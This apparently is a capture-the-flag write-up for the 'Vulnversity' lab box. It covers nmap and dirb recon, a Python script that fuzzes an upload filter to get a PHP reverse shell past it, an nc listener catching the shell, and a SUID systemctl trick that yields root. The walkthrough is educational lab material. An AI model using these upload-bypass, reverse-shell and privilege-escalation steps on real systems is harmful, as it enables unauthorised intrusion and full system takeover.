 # Vulnversity
  Learn about active recon, web app attacks and privilege escalation.
  
![](JFYfwL8.png)

## Nmap scan
Here is the task 2 answers all in this nmap scan. 
```text
# Nmap 7.91 scan initiated Sun May 30 18:01:18 2021 as: nmap -sV -sC -oN nmap/vuln 10.10.205.62
Nmap scan report for 10.10.205.62
Host is up (0.22s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2021-05-30T08:32:09-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-30T12:32:09
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 30 18:02:18 2021 -- 1 IP address (1 host up) scanned in 59.24 seconds
```
# Web page
According to the nmap scan we found nice web page in the port 3333
![](webpage.png)

## Task 3 
1.  What is the directory that has an upload form page?
Here I'm using dirb because it's my favourite tool for brute-forcing urls
```text
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirb.log
START_TIME: Sun May 30 18:26:08 2021
URL_BASE: http://10.10.205.62:3333/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.205.62:3333/ ----
==> DIRECTORY: http://10.10.205.62:3333/css/
==> DIRECTORY: http://10.10.205.62:3333/fonts/
==> DIRECTORY: http://10.10.205.62:3333/images/
+ http://10.10.205.62:3333/index.html (CODE:200|SIZE:33014)
==> DIRECTORY: http://10.10.205.62:3333/internal/
==> DIRECTORY: http://10.10.205.62:3333/js/
```
You can upload images from /internal/ directory.
![](upload.png)

## Task 4
1. Try upload a few file types to the server, what common extension seems to be blocked? 
Let's see we can upload some php revshells and get the access to this machine. Seems like we can't upload .php files. 

They said to use burpsuit for fuzz the upload form. But here allow me to show new script I make to fuzz the upload form. This script turn our php file to correct format.
```python
#! /usr/bin/env python3
import requests
import os

ip = "10.10.155.48"
url = f"http://{ip}:3333/internal/index.php"

old_filename = "php-revshell.php"
filename = "php-revshell"
extensions = [".php", ".php3", ".php4", ".php5", ".phtml"]

for ext in extensions:
    new_filename = filename + ext
    os.rename(old_filename, new_filename)

    files = {"file": open(new_filename, "rb")}
    r = requests.post(url, files=files)

    if "Extensions not allowed" in r.text:
        print(f"{ext} not allowed")
    else:
        print(f"{ext} allowed")

    old_filename = new_filename

```

2. Run this attack, what extension is allowed?
If we look at the our result we got hit with .phtml extension.

3. What is the name of the user who manages the web server?
Now we need to get into the machine. Go ahead setup a listener to our port. http://10.10.229.33:3333/internal/uploads/ here we can found our reverse shell.
```bash
┌─[✗]─[visith@parrot]─[~]
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.9.2.218] from (UNKNOWN) [10.10.229.33] 60408
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 06:47:05 up 7 min,  0 users,  load average: 0.05, 0.54, 0.42
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ /usr/bin/script -qc /bin/bash /dev/null
www-data@vulnuniversity:/$
```
If we look into the /etc/passwd list we can see bill and root. So answer is **bill**.

4. What is the user flag?
Its in the bill's home directory. (cd /home/bill && cat user.txt)

## Task 5

1. On the system, search for all SUID files. What file stands out?

find / -perm -4000 2>/dev/null
```bash
www-data@vulnuniversity:/home/bill$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```
/bin/systemctl not common. So answer was the **/bin/systemctl**

2. Become root and get the last flag (/root/root.txt)
Now we know systemctl is SUID . Let's see how we can use this to get root. 
Link to source - https://gtfobins.github.io/gtfobins/systemctl/

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
Now we successfully change permission

```bash
www-data@vulnuniversity:/$ ls -l /bin/bash
ls -l /bin/bash
-rwsr-sr-x 1 root root 1037528 May 16  2017 /bin/bash
```

I do some changes in the script gives by GTFO bins. Now I can simply type 'bash -p' and get root. It tells we in www-data but in the script we change the group to root . So now we can head over to the cd /root/ and get the flag.

```bash
www-data@vulnuniversity:$ bash -p
bash -p
bash-4.3# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-4.3# cd /root
cd /root
bash-4.3# ls
ls
root.txt
```